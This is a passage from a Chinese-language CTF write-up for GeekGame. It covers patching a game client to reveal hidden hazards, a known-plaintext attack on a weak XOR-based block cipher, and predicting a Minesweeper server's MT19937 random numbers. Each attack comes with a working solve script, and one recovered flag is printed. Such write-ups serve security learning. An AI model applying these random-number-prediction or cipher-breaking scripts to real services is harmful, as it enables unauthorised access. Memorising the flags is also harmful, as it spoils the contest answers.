            else:
                moneymsg.set('$%d/%d ' % (game.cur, game.goal))
                moneybar['value'] = game.cur
                lifebar['value'] = game.player.life
                canvas.yview_moveto((BORDER + game.player.y - 4) / (GY + 2 * BORDER))
                canvas.xview_moveto((BORDER + game.player.x - 4) / (GX + 2 * BORDER))
    ```

    每个坐标都要 `canvas.create_image()` 是耗时的，把它们加个缩进：

    ```python
    for y in range(GY):
        for x in range(GX):
            if not redraw:
                if game.g[y][x] is not onscreen[y][x] or game.g[y][x] == Elem.player:
                    onscreen[y][x] = game.g[y][x]
                    if dg[y][x]:
                        canvas.delete(dg[y][x])
                    if game.g[y][x] == Elem.player:
                        dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(get_player_img()))
                    else:
                        dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(material[game.g[y][x]]))
    ```

    就能解决 CPU 占用的问题了。

2. 为什么人物不会自己掉坑里，必须要再加一个操作才会响应？因为判断是否 `game.tick()` 的部分出了问题。

    ```python
    try:
        if game.player.command == Command.empty:
            x = cmds.get_nowait()
            game.player.command = x
    except queue.Empty:
        game.player.command = Command.empty
    else:
        game.tick()
        time.sleep(TICKTIME)
    ```

    操作为空时 `game.tick()` 不会被执行，可能是这一点导致了问题。解决方法很简单：

    ```python
    try:
        if game.player.command == Command.empty:
            x = cmds.get_nowait()
            game.player.command = x
    except queue.Empty:
        game.player.command = Command.empty
    game.tick()
    time.sleep(TICKTIME)
    ```

这样就能玩了。看代码可以看到 `evildirt`，可以猜测这个东西是我们不能碰的。那怎么办呢？我们来开透视挂！

加载贴图的逻辑在 `load_texture()` 里，把 `Elem.evildirt` 对应加载的图片改成别的就行（比如说 `playerHurtR`）。需要注意不改代码直接改 msi 是没用的，因为：

```python
with open('textures.msi', 'rb') as (f):
    PSK = hashlib.sha256(f.read()).digest()
    assert len(PSK) == 32
```

通信过程中 `PSK` 不对会导致运行失败。

开挂后效果如下：



图 7. 透视挂

别告诉我你开了挂都过不了.png

虽然最后几关就算开了挂也挺刺激的。别忘了 `show_hud` 里顺便 `print()` 一下，不然你就白玩了（

最终效果：



图 8. 获得第一小题 flag

因为不太会写算法，第二题没有完成。

## 密码学实践

（仅完成第一题）

我不太会 RSA，不过刚好第一题不需要会（

```python
print(MESenc(pad(("Hello, Alice! I will give you two flags. The first is: "+flag1(token)).encode("utf-8")),Public_key).hex())
print(MESenc(pad(("Sorry, I forget to verify your identity. Please give me your certificate.").encode("utf-8")),Public_key).hex())
```

似乎是已知明文攻击。其中 `MESenc()` 的实现：

```python
def MESenc(mess:bytes,skey:bytes):
    assert len(skey)==8*32
    keys = [bytes_to_long(skey[i*8:(i+1)*8]) for i in range(32)]
    assert len(mess)%32 == 0
    cip=b""
    for it in range(0,len(mess),32):
        pmess=mess[it:it+32]
        a = bytes_to_long(pmess[0:8])
        b = bytes_to_long(pmess[8:16])
        c = bytes_to_long(pmess[16:24])
        d = bytes_to_long(pmess[24:32])
        print(long_to_bytes(a), long_to_bytes(b), long_to_bytes(c), long_to_bytes(d))
        ori_a, ori_b, ori_c, ori_d = a,b,c,d
        for key in keys:
            a, b, c, d = b, c, d, a ^ c ^ key
        print(ori_c^a, ori_d^b, ori_a^ori_c^c, ori_b^ori_d^d)
        a=long_to_bytes(a,8)
        b=long_to_bytes(b,8)
        c=long_to_bytes(c,8)
        d=long_to_bytes(d,8)
        print(a,b,c,d)
        input()
        cip+=a+b+c+d
    return cip
```

中间的异或让人感觉问题很大，纸上推了推，最后会变成这样：

```
c^key0 d^key1 a^c^key2 b^d^key3
```

其中 `key[0-3]` 对相同的 skey 都相同。那么已知 "Sorry, I forget to verify your identity. Please give me your certificate." 的密文和 flag 的密文，就能知道 flag 的明文。

脚本如下：

```python
from rsa import pad, bytes_to_long, long_to_bytes

enc0 = bytes.fromhex("ca58e223c555c1286707e9bca934db7ae2ba50e6a35f08e311c0c8998dd31d41ce45ae26960888386e46f7a89a719e5ec1e216e3fe49129c54bcdd8dbfd07837e250e010aa65ee230a2f98dbd41ca705d6b272e6cd2653de20f3b1c49fbe1b7a")
enc1 = bytes.fromhex("c95eae398040c1387b07e9bca9668f64fab602e2f04a08fb41cfc48ecbc4745fda58f82ac55fcd7e7b48e5a1fc77ca7fdeba48f7a50d5dda41b6cb8498c32044aa269958f225bf49153087c4cb03b81abec82198986222a62189d293d9d32016")

plain1 = b'Sorry, I forget to verify your identity. Please give me your certificate.\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17\x17'

print(len(enc0), len(enc1), len(plain1))

for it in range(0, len(plain1), 32):
    pplain = plain1[it:it + 32]
    penc = enc1[it:it + 32]

    pa = bytes_to_long(pplain[0:8])
    pb = bytes_to_long(pplain[8:16])
    pc = bytes_to_long(pplain[16:24])
    pd = bytes_to_long(pplain[24:32])

    ea = bytes_to_long(penc[0:8])
    eb = bytes_to_long(penc[8:16])
    ec = bytes_to_long(penc[16:24])
    ed = bytes_to_long(penc[24:32])

    print(pc^ea, pd^eb, pa^pc^ec, pb^pd^ed)

ka, kb, kc, kd = 13632834020826064990, 155251951772413709, 15976045680876863956, 1768175861176147990
for it in range(0, len(plain1), 32):
    penc = enc0[it:it + 32]

    ea = bytes_to_long(penc[0:8])
    eb = bytes_to_long(penc[8:16])
    ec = bytes_to_long(penc[16:24])
    ed = bytes_to_long(penc[24:32])

    pa, pb, pc, pd = (ka^ea, kb^eb, kc^ec, kd^ed)
    # pc = a^c, pd = b^d
    pc = pc ^ pa
    pd = pd ^ pb
    a,b,c,d =(long_to_bytes(pa, 8), long_to_bytes(pb, 8), long_to_bytes(pc, 8), long_to_bytes(pd, 8))
    print(c,d,a,b)

# b'Hello, A' b'lice! I ' b'will giv' b'e you tw'
# b'o flags.' b' The fir' b'st is: f' b'lag{Fe1S'
# b'TeL_neTw' b'0rk_Ne3d' b'_an_OWF}' b'\x08\x08\x08\x08\x08\x08\x08\x08'

# flag{Fe1STeL_neTw0rk_Ne3d_an_OWF}
```

其中 `enc0` 和 `enc1` 取任意一次执行结果即可。

第二题没有看出思路，我觉得还挺安全的（？？？），构造不出 `aname == b'Alice'`（？？？？？），可能我还是只适合 web 和 misc（

## 扫雷

（仅完成第一题）

一开始我真的以为是要扫雷，去搜了一圈 solver，发现 solver 几乎都假设已知雷的个数，之后就放一边了。第一阶段结束前那个凌晨又看了看，然后，Flag 1 就是预测随机数啊！而且最困难的部分网上有现成的库，来个连续的 624 个随机数就行。

```python
from zio import *
import time
from mt19937predictor import MT19937Predictor

token = b"your token"

io = zio(("prob09.geekgame.pku.edu.cn", 10009))
io.read_until(b"token: ")
io.writeline(token)
io.read_until(b"(y/n)")
io.writeline("n")

predictor = MT19937Predictor()
for cnt in range(624):
    num = ""
    for i in range(16):
        flag = False
        for j in range(16):
            io.read_until("> ")
            io.writeline(f"{i} {j}")
            x = io.readline()
            if b'BOOM' in x:
                for k in range(16):
                    _ = io.readline().strip()
                    assert len(_) == 16
                    t = ""
                    for l in _[::-1]:
                        if l == ord('*'):
                            t += "1"
                        else:
                            t += "0"
                    num = t + num
                num = int(num, 2)
                predictor.setrandbits(num, 16*16)
                io.read_until("n)")
                io.writeline("y")
                flag = True
                break
            else:
                continue
        if flag:
            break

# io.read_until("n)")
# io.writeline("y")
num = predictor.getrandbits(16*16)
print(num)
for i in range(16):
    for j in range(16):
        if not (num >> (i * 16 + j)) & 1:
            io.read_until("> ")
            io.writeline(f"{i} {j}")

io.interact()
```

第二题不太会（

## 总结

真好玩啊！就是这个礼拜睡眠时间不太够。尤其是 web 题的质量很高（我不太喜欢 misc 的套娃题，不过内嵌的剧情让我的不满程度下降了很多），binary 和 algorithm 因为自己就没做出几道完整的题，个人没法给合理的评价，不过看起来也很不错。

作为今年 hackergame 的 staff 之一，我很清楚对于这样的比赛（特别是允许校外参加而且时间长的比赛）来说，工作人员是非常非常辛苦的，在此我个人对 geekgame 的工作人员表示感谢，撒花🎉！

总之，太好玩了⑧！明年有机会一定还来！

（另外，我要调整一下作息时间了……为了打比赛这周天天凌晨三四点睡。

## 花絮：Copilot 迷惑行为

写 writeups 的时候我开了 GitHub Copilot，下面分享一些比较有意思的场面：



图 9. 得到假 flag.png



图 10. 串题了.png



图 11. 没有解决.png



图 12. 好像哪里不对，又好像没啥问题.png
